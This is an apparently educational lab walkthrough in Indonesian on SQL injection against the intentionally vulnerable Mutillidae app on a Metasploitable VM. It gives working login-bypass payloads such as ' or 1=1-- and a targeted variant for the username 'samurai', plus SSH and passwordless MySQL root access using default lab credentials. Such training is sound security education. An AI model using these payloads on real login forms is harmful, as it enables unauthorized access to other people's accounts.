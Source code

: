 Lesson 5
--------
### Section 8: SQL Injection: Single Quote Test On Username Field
- **Step 1**    : Buka Login/Register
    ![](/assets/lesson-5/login-register.png)
- **Step 2**    : Ketik `'` di kolom **Name**    
- **Step 3**    : Klik Login
    ![](/assets/lesson-5/quote_test.png)
- **Step 4**    : Anda akan mendapatkan error, jika terjadi error setelah anda login dengan **Name** `'`, berarti backend dari sistem rentan terhadap SQL Injection
    ![](/assets/lesson-5/quote_test_error.png)
        - Query yang dihasilkan:
        ```
        SELECT * FROM accounts WHERE username=''' AND password=''
        ```
    - Query Normal:
        ```
        SELECT * FROM accounts WHERE username='admin' AND password='adminpass'
        ```
    
### Section 9: SQL Injection: By-Pass Password Without Username (Obtain Access #1)
- **Step 1**    : Buka Login/Register
- **Step 2**    : Ketik `' or 1=1-- ` di kolom **Name** dengan spasi di akhir `-- `
- **Step 3**    : Klik Login
    ![](/assets/lesson-5/login2.png)
- **Step 4**    : Anda akan berhasil login dengan akun Admin karena Admin berada pada urutan paling atas pada database. Dengan kondisi `1=1` maka akan menghasilkan kondisi yang selalu benar dan `-- ` berguna untuk comment pada SQL, karena itu query selanjutnya akan dibatalkan **(AND password='')**.
    ![](/assets/lesson-5/login2_berhasil.png)
    - Query yang dihasilkan:
        ```
        SELECT * FROM accounts WHERE username='' or 1=1-- ' AND password=''
        ```
    - Query yang sebenarnya dikerjakan:
        ```
        SELECT * FROM accounts WHERE username='' or 1=1
        ```
    
### Section 9: SQL Injection: Single Quote Test On Password Field
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada element **type**.
    ![](/assets/lesson-5/inspect-password-to-text.png)
- **Step 6**    : Ketik `'` di kolom **Password**.
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![](/assets/lesson-5/inspect-password-not-obfuscated.png)
    - Anda akan mendapatkan error
        ![](/assets/lesson-5/password-login-error.png)
    - Query di backend menjadi error, mengindikasikan bahwa backend dari sistem rentan terhadap SQL Injection.
    - Query yang dihasilkan:
        ```
        SELECT * FROM accounts WHERE username='samurai' and password='''
        ```
    - Query Normal:
        ```
        SELECT * FROM accounts WHERE username='samurai' AND password='samurai'
        ```
        
### Section 10: SQL Injection: Single Quote Test On Password Field (Obtain Access #2)
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada element **type**.
    ![](/assets/lesson-5/inspect-password-to-text.png)
- **Step 6**    : Ketik `' or 1=1-- ` di kolom **Password**. Jangan lupa memberikan spasi setelah `-- `
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![]/assets/lesson-5/non-obfused-pass-1.png)
    - Anda akan tetap terlogin sebagai admin bukan samurai, Karena Admin berada pada urutan atas dari hasil query. Hal ini disebabkan oleh desain dari program Multilidae.
        ![](/assets/lesson-5/password-login-admin.png)
- **Step 8**    : Logout

### Section 11: Single Quote Test On Password Field (Obtain Access #3)
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada elemen **type**. Ganti elemen maxlength menjadi `50` dan elemen size menjadi `50`
    ![](/assets/lesson-5/inspect-password-size.png)
- **Step 6**    : Ketik `' or (1=1 and username='samurai')-- ` di kolom **Password**. Jangan lupa memberikan spasi setelah `-- `
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![](/assets/lesson-5/non-obfused-pass-2.png)
    - Anda akan berhasil login sebagai `samurai`
        ![](/assets/lesson-5/samurai-logged-in.png)
    - Query yang dihasilkan
        ```
        SELECT * FROM accounts WHERE username='samurai' AND password='' or (1=1 and username='samurai')-- '
        ```

### Database Practice
- **Step 1**    : SSH Metasploitable dengan username `msfadmin` dan password `msfadmin`.
    ```
    ssh msfadmin@10.151.36.64
    ```
- **Step 2**    : Login MySQL dengan user `root` tanpa password
    ```
    mysql -u root
    ```
- **Step 3**    : Pilih database `owasp10`
    ![](/assets/lesson-5/db.png)
- **Step 4**    : Lihat daftar tabel dalam database
    ```
    show tables;
    ```
- **Step 5**    : Lihat isi semua kolom dari tabel `accounts`
    ```
    desc accounts;
    ```
    ![](/assets/lesson-5/db_table.png)
- **Step 6**    : Lihat semua data dari tabel `accounts`
    ```
    select * from accounts;
    ```
     ![](/assets/lesson-5/db_table_records.png)
- **Step 7**    : Contoh SQL Injection
    - `select * from accounts where username = ''  and password = '';`
    - `select * from accounts where username = 'samurai'  and password = 'samurai';`
    - `select * from accounts where username = 'samurai'  and password = 'wrongpassword';`
    - `select * from accounts where username = 'samurai';-- and password = 'wrongpassword';`
    ![](/assets/lesson-5/db_query.png)
- **Step 8**    : Mencoba hasil dari Single Quote(')
    - `select * from accounts where username = '''  and password = '';`, dari section 8, step 2.
    - `';`, dari section 8, step 2.
    - `select * from accounts where username = '' or 1=1; --   and password = '';`, dari section 9, step 2.
    - `select * from accounts where username = 'samurai' and password = '' or 1=1; -- ';`, dari section 10, step 6.
    ![](/assets/lesson-5/db_query_1.png)
    - `select * from accounts where username = 'samurai' and password = '' or (1=1 and username = 'samurai'); -- ';`, dari section 11, step 6.
    ![](/assets/lesson-5/db_query_2.png)

### Proof of Lab
![](/assets/lesson-5/proof_of_lab.png)
    






    
